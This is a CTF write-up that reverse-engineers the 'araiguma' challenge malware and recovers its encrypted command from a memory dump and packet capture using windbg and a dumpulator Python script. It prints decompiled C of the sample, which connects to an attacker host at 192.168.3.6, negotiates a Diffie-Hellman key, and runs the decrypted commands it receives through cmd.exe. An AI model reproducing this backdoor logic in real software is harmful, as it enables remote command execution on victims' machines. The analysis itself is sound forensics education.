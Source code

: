 # Introduction

Challenge description:
> I found a suspicious process named "araiguma.exe" running on my computer. Before removing it, I captured my network and dumped the process memory. Could you investigate what the malware is doing?

The challenge is a _reversing_ challenge that was solved by _27 teams_. Part of the challenge are 4 files:
```
araiguma.DMP  araiguma.exe.bin  network.pcap  README.txt

> file -k araiguma.exe.bin araiguma.DMP network.pcap
araiguma.exe.bin: PE32+ executable (console) x86-64, for MS Windows\012- data
araiguma.DMP:     Mini DuMP crash report, 15 streams, Mon Oct 31 13:53:13 2022, 0x421826 type\012- data
network.pcap:     pcap capture file, microsecond ts (little-endian) - version 2.4 (Ethernet, capture length 262144)\012- data
```

# Analysis

`README.md` offers an useful graphic perspective about the challenge:
```
> cat README.txt
The following diagram discribes what each file is.
Do not run araiguma.exe unless you fully understand the logic.

+-- Victim Machine --+       +-- Attacker Machine --+
| +--------------+   |       |   +-------------+    |
| | araiguma.exe |<------------->| kitsune.exe |    |
| +--------------+   |   ^   |   +-------------+    |
|        ^           |   |   |                      |
+--------|-----------+   |   +----------------------+
         |               |
  Memory |               | Packet
   Dump  |               | Capture
         |               |
  [ araiguma.DMP ] [ network.pcapng ]
```

Thanks to `IDA Pro`'s decompiler (and a few manual changes) it is easily possible to understand the high level functionalities:
```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  SIZE_T dwBytes; // [rsp+38h] [rbp-48h] BYREF
  struct sockaddr name; // [rsp+40h] [rbp-40h] BYREF
  struct WSAData WSAData; // [rsp+50h] [rbp-30h] BYREF
  char buf[4]; // [rsp+1F0h] [rbp+170h] BYREF
  DWORD pdwDataLen; // [rsp+1F4h] [rbp+174h] BYREF
  HCRYPTKEY hKey; // [rsp+1F8h] [rbp+178h] BYREF
  HCRYPTKEY phKey; // [rsp+200h] [rbp+180h] BYREF
  HCRYPTPROV hProv; // [rsp+208h] [rbp+188h] BYREF
  BYTE v12[4]; // [rsp+210h] [rbp+190h] BYREF
  void *p_g_G; // [rsp+218h] [rbp+198h]
  BYTE pbData[4]; // [rsp+220h] [rbp+1A0h] BYREF
  void *p_g_P; // [rsp+228h] [rbp+1A8h]
  LPCSTR pBuffer2; // [rsp+238h] [rbp+1B8h]
  BYTE *pbData_1; // [rsp+240h] [rbp+1C0h]
  SOCKET s; // [rsp+248h] [rbp+1C8h]
  BYTE *pBuffer; // [rsp+250h] [rbp+1D0h]
  HANDLE hHeap; // [rsp+258h] [rbp+1D8h]

  _main();
  *(_DWORD *)pbData = 64;
  p_g_P = &g_P;
  *(_DWORD *)v12 = 64;
  p_g_G = &g_G;
  hHeap = GetProcessHeap();
  if ( !hHeap )
    return 1;
  if ( !CryptAcquireContextA_0(
          &hProv,
          0i64,
          "Microsoft Enhanced DSS and Diffie-Hellman Cryptographic Provider",
          PROV_DSS_DH,
          CRYPT_VERIFYCONTEXT) )
    return 1;
  if ( CryptGenKey(hProv, CALG_DH_EPHEM, 0x2000041u, &phKey)
    && CryptSetKeyParam(phKey, KP_P, pbData, 0)
    && CryptSetKeyParam(phKey, KP_G, v12, 0)
    && CryptSetKeyParam(phKey, KP_X, 0i64, 0) )
  {
    if ( CryptExportKey(phKey, 0i64, 6u, 0, 0i64, &pdwDataLen) )
    {
      pBuffer = (BYTE *)HeapAlloc(hHeap, 0, pdwDataLen);
      if ( pBuffer )
      {
        if ( CryptExportKey(phKey, 0i64, 6u, 0, pBuffer, &pdwDataLen) )
        {
          WSAStartup(2u, &WSAData);
          s = socket(2, 1, 0);
          name.sa_family = 2;
          *(_WORD *)name.sa_data = htons(0x1F90u);
          inet_pton(2, "192.168.3.6", &name.sa_data[2]);
          if ( !connect(s, &name, 16) )
          {
            send(s, (const char *)&pdwDataLen, 4, 0);
            send(s, (const char *)pBuffer, pdwDataLen, 0);
            recv(s, buf, 4, 0);
            pbData_1 = (BYTE *)HeapAlloc(hHeap, 0, *(unsigned int *)buf);
            if ( pbData_1 )
            {
              recv(s, (char *)pbData_1, *(int *)buf, 0);
              if ( CryptImportKey(hProv, pbData_1, *(DWORD *)buf, phKey, 0, &hKey) )
              {
                HIDWORD(dwBytes) = 0x6801;
                if ( CryptSetKeyParam(hKey, KP_ALGID, (const BYTE *)&dwBytes + 4, 0) )
                {
                  memset(pbData_1, 0, *(unsigned int *)buf);
                  while ( recv(s, (char *)&dwBytes, 4, 0) == 4 )
                  {
                    pBuffer2 = (LPCSTR)HeapAlloc(hHeap, 0, (unsigned int)dwBytes);
                    if ( !pBuffer2 )
                      break;
                    recv(s, (char *)pBuffer2, dwBytes, 0);
                    if ( !CryptDecrypt(hKey, 0i64, 1, 0, (BYTE *)pBuffer2, (DWORD *)&dwBytes) )
                    {
                      HeapFree(hHeap, 0, (LPVOID)pBuffer2);
                      break;
                    }
                    ShellExecuteA(0i64, "open", "cmd.exe", pBuffer2, 0i64, 0);
                    memset((void *)pBuffer2, 0, (unsigned int)dwBytes);
                    HeapFree(hHeap, 0, (LPVOID)pBuffer2);
                  }
                }
              }
              HeapFree(hHeap, 0, pbData_1);
            }
            closesocket(s);
          }
          WSACleanup();
        }
        HeapFree(hHeap, 0, pBuffer);
      }
    }
    CryptDestroyKey(phKey);
  }
  CryptReleaseContext(hProv, 0);
  return 0;
}
```

Having the _dump crash report_ and the _network capture_, the idea of _emulating_ the dump was quite attractive comparing
to extracting the necessary encryption/decryption keys from the dump then reimplementing the decryption.
Luckily, there's a great tool for this kind of purposes of _dump emulation_: https://github.com/mrexodia/dumpulator (Thanks to [@mrexodia](https://twitter.com/mrexodia) for his work.)

Before emulation, the correct context/state has to be reconstructed for the [CryptDecrypt](https://learn.microsoft.com/en-us/windows/win32/api/wincrypt/nf-wincrypt-cryptdecrypt) call to succeed. That means having the following (correct) arguments:
- `hKey`
- `*pbData`
- `*pdwDataLen`

The arguments can be recovered in a few ways, the technique that I used is to pin/locate the value of `RBP` at the start of `main` then use the correct
_stack offsets_ to extract the arguments. We know that the global `g_P` is saved at `rbp+1A8h`
```
.text:000000000040156F 268 48 8D 05 8A 2A 00 00                                         lea     rax, g_P
.text:0000000000401576 268 48 89 85 A8 01 00 00                                         mov     [rbp+1A8h], rax
```
and in the _dump_ that is the _stack address_:
```
00000000`0064fde8 0000000000404000 araiguma+0x4000
```
So to obtain `hKey` we can use the following calculation (in _windbg_):
```
0:000> ? 00000000`0064fde8 - 1a8 + 178
Evaluate expression: 6618552 = 00000000`0064fdb8
0:000> dq 00000000`0064fdb8 L1
00000000`0064fdb8  00000000`000f62e0
```
_Note_: 0x178 is from
```
.text:00000000004019FB 268 48 8B 85 78 01 00 00                                         mov     rax, [rbp+178h]
```
the _offset_ of `hKey` from `RBP`. Using the same approach it is possible to obtain the rest of the arguments.

# Solution

Using the correct arguments and recreating the correct state before the `CryptDecrypt` call, the solution script that I've
glued together durint the CTF is:
```python
from dumpulator import Dumpulator

CryptDecrypt = 0x00007ffa9e0bf410
GetLastError = 0x00007ffa9f6e5bf0

#enc_data = bytes.fromhex("0602000002aa00000044483100020000288f76749ec20b9ab18c618418ae9a70722618dc685e667fc0c19b906a6aa3a571f473ea0eaada269f29860d55ddcba0367ee6f7a1fac83d2d7395482930b3b8")
enc_data = bytes.fromhex("8c28c20d027aa8bc9a71b107022421e907340de0f9a4c540611f2d95b560f8435fdb44ecb38876ddab1fe3ffcaf26aeb65b7f7f4d1d0bc6ceec521c77c27cd0ffba4a9d007228c478288b906b64d832be9822e123ec4a5abbc155a24b63a8c657c05ff6148124f")
dp = Dumpulator("araiguma.DMP", trace=True)
print(hex(dp.regs.rip))
# setup encrypted buffer
enc_buff = dp.allocate(0x80)
print(f"Allocated addr: {hex(enc_buff)}")
dp.write(enc_buff, enc_data)
# setup arguments and call
# pdwDataLen must be the length of the data to decrypt before the call https://learn.microsoft.com/en-us/windows/win32/api/wincrypt/nf-wincrypt-cryptdecrypt
pdwDataLen = 0x0064fbf8
dp.write(pdwDataLen, (len(enc_data)).to_bytes(8, byteorder="little"))
# dp.push should do the job too, but ...
dp.write(dp.regs.rsp + 0x28, pdwDataLen.to_bytes(8, byteorder="little"))
dp.write(dp.regs.rsp + 0x20, enc_buff.to_bytes(8, byteorder="little"))
hKey, hHash, Final, dwFlags = 0x000f62e0, 0, 1, 0
res = dp.call(CryptDecrypt, [hKey, hHash, Final, dwFlags])
print(f"> Call result: {res}")
res = dp.call(GetLastError)
print(f"> Call result: {res}")
# get decrypted data
data = dp.read(enc_buff, 0x80)
print(f"Date: {data}")
```
`enc_data` content is to extracted from the _network capture_ (for convenience filter by `ip.addr == 192.168.3.6`).

And with a bit of patience, let's put a smile on our faces and a flag in our 'pockets':
```bash
Allocated addr: 0x2e10000
emu_start(7ffa9e0bf410, 5000, 0)
emulation finished, cip = 5000
> Call result: 1
emu_start(7ffa9f6e5bf0, 5000, 0)
emulation finished, cip = 5000
> Call result: 0
Date: bytearray(b'/C echo "SECCON{M3m0ry_Dump+P4ck3t_C4ptur3=S0ph1st1c4t3d_F0r3ns1cs}" > C:\\Users\\ctf\\Desktop\\flag.txt\r\n\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00')
```

# Conclusion

Thanks to the author of the challenge ([ptr-yudai](https://twitter.com/ptrYudai)) and to [@mrexodia](https://twitter.com/mrexodia) for his
nice tool.

happy ctfing!
